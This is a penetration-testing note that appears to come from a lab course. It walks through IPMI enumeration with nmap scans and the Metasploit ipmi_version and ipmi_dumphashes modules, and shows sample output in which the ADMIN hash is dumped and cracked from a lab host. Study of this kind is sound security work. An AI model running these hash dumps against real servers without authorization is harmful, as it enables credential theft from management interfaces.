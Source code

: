 ```yaml
---
id: Enumeration
aliases: []
tags:
  - Networking/Services/IPMI/Enumeration
---
```


# Enumeration

## Checklist

- [ ] [[Enumeration#Nmap|Nmap]]
    - [ ] [[Enumeration#Network Scan|Network Scan]]
    - [ ] [[Enumeration#Service Enumeration|Service Enumeration]]
- [ ] [[Enumeration#Metasploit|Metasploit]]
    - [ ] [[Enumeration#Version Scan|Version Scan]]
    - [ ] [[Enumeration#Dump Hashes|Dump Hashes]]

___

<!-- Nmap {{{-->
## Nmap

<!-- Network Scan {{{-->
### Network Scan

Scan the network for port TCP/UDP `623`

```sh
nmap -n -p 623 <target>/<cidr> -oA ipmi-basic
```

```sh
nmap -n -sU -p 623 <target>/<cidr> -oA ipmi-basic-udp
```

<!-- Info {{{-->
> [!info]-
>
> - `-n`: Desable DNS resolution
> - `-p 623`: Scan port `623`
> - `-sU`: Scan UDP port
<!-- }}} -->

<!-- }}} -->

<!-- Service Enumeration {{{-->
### Service Enumeration

Footprint the service with the `ipmi-version`
[[Nmap Scripting Engine|NSE]] script

```sh
sudo nmap -sU -p 623 --script ipmi-version <target_domain> -oA ipmi-version
```

<!-- Example {{{-->
> [!example]-
>
> ```sh
> sudo nmap -sU --script ipmi-version -p 623 ilo.inlanfreight.local
> ```
> ```sh
> Starting Nmap 7.92 ( https://nmap.org ) at 2021-11-04 21:48 GMT
> Nmap scan report for ilo.inlanfreight.local (172.16.2.2)
> Host is up (0.00064s latency).
>
> PORT    STATE SERVICE
> 623/udp open  asf-rmcp
> | ipmi-version:
> |   Version:
> |     IPMI-2.0
> |   UserAuth:
> |   PassAuth: auth_user, non_null_user
> |_  Level: 2.0
> MAC Address: 14:03:DC:674:18:6A (Hewlett Packard Enterprise)
>
> Nmap done: 1 IP address (1 host up) scanned in 0.46 seconds
> ```
>
> - [[General|IPMI]] version 2.0 is listening on port `623`/UDP
>
<!-- }}} -->

<!-- }}} -->

___

<!-- }}} -->

<!-- Metasploit {{{-->
## Metasploit

<!-- Version Scan {{{-->
### Version Scan

[IPMI Information Discovery](https://www.rapid7.com/db/modules/auxiliary/scanner/ipmi/ipmi_version/)
can be used to discover host information through IPMI Cheannel Auth probes

```sh
msf6 > use auxiliary/scanner/ipmi/ipmi_version
```

<!-- Example {{{-->
> [!example]-
>
> 1. [[Metasploit#Select Exploit|Select scanner]]
>
> ```sh
> msf6 > use auxiliary/scanner/ipmi/ipmi_version
> ```
>
> 2. [[Metasploit#Set Options|Select options]]
>
> ```sh
> msf6 auxiliary(scanner/ipmi/ipmi_version) > set rhosts 10.129.42.195
> ```
>
> 3. [[Metasploit#Show Options|Show options]]
>
> ```sh
> msf6 auxiliary(scanner/ipmi/ipmi_version) > show options
> ```
>
> ```sh
> Module options (auxiliary/scanner/ipmi/ipmi_version):
>
>    Name       Current Setting  Required  Description
>    ----       ---------------  --------  -----------
>    BATCHSIZE  256              yes       The number of hosts to probe in each set
>    RHOSTS     10.129.42.195    yes       The target host(s), range CIDR identifier, or hosts file with syntax 'file:<path>'
>    RPORT      623              yes       The target port (UDP)
>    THREADS    10               yes       The number of concurrent threads
> ```
>
> 4. [[Metasploit#Run Exploit|Run the scan]]
>
> ```sh
> msf6 auxiliary(scanner/ipmi/ipmi_version) > run
> ```
>
> ```sh
> [*] Sending IPMI requests to 10.129.42.195->10.129.42.195 (1 hosts)
> [+] 10.129.42.195:623 - IPMI - IPMI-2.0 UserAuth(auth_msg, auth_user, non_null_user) PassAuth(password, md5, md2, null) Level(1.5, 2.0) 
> [*] Scanned 1 of 1 hosts (100% complete)
> [*] Auxiliary module execution completed
> ```
<!-- }}} -->

<!-- }}} -->

<!-- Dump Hashes {{{-->
### Dump Hashes

Retrieve [[General|IPMI]] hashes with the Metasploit
[IPMI 2.0 RAKP Remote SHA1 Password Hash Retrieval](https://www.rapid7.com/db/modules/auxiliary/scanner/ipmi/ipmi_dumphashes/)
module

```sh
msf6 > use auxiliary/scanner/ipmi/ipmi_dumphashes
```

<!-- Example {{{-->
> [!example]-
>
> 1. [[Metasploit#Select Exploit|Select scanner]]
>
> ```sh
> msf6 > use auxiliary/scanner/ipmi/ipmi_dumphashes
> ```
>
> 2. [[Metasploit#Set Options|Select options]]
>
> ```sh
> msf6 auxiliary(scanner/ipmi/ipmi_dumphashes) > set rhosts 10.129.42.195
> ```
>
> 3. [[Metasploit#Show Options|Show options]]
>
> ```sh
> msf6 auxiliary(scanner/ipmi/ipmi_dumphashes) > show options
> ```
>
> ```sh
> Module options (auxiliary/scanner/ipmi/ipmi_dumphashes):
> 
>    Name                 Current Setting                                                    Required  Description
>    ----                 ---------------                                                    --------  -----------
>    CRACK_COMMON         true                                                               yes       Automatically crack common passwords as they are obtained
>    OUTPUT_HASHCAT_FILE                                                                     no        Save captured password hashes in hashcat format
>    OUTPUT_JOHN_FILE                                                                        no        Save captured password hashes in john the ripper format
>    PASS_FILE            /usr/share/metasploit-framework/data/wordlists/ipmi_passwords.txt  yes       File containing common passwords for offline cracking, one per line
>    RHOSTS               10.129.42.195                                                      yes       The target host(s), range CIDR identifier, or hosts file with syntax 'file:<path>'
>    RPORT                623                                                                yes       The target port
>    THREADS              1                                                                  yes       The number of concurrent threads (max one per host)
>    USER_FILE            /usr/share/metasploit-framework/data/wordlists/ipmi_users.txt      yes       File containing usernames, one per line
> ```
>
> 4. [[Metasploit#Run Exploit|Run the scan]]
>
> ```sh
> msf6 auxiliary(scanner/ipmi/ipmi_dumphashes) > run
> ```
> ```sh
> [+] 10.129.42.195:623 - IPMI - Hash found: ADMIN:8e160d4802040000205ee9253b6b8dac3052c837e23faa631260719fce740d45c3139a7dd4317b9ea123456789abcdefa123456789abcdef140541444d494e:a3e82878a09daa8ae3e6c22f9080f8337fe0ed7e
> [+] 10.129.42.195:623 - IPMI - Hash for user 'ADMIN' matches password 'ADMIN'
> [*] Scanned 1 of 1 hosts (100% complete)
> [*] Auxiliary module execution completed
>
> This flaw is a critical component of the [[General|IPMI]] specification
> ```
<!-- }}} -->

<!-- }}} -->

___

<!-- }}} -->
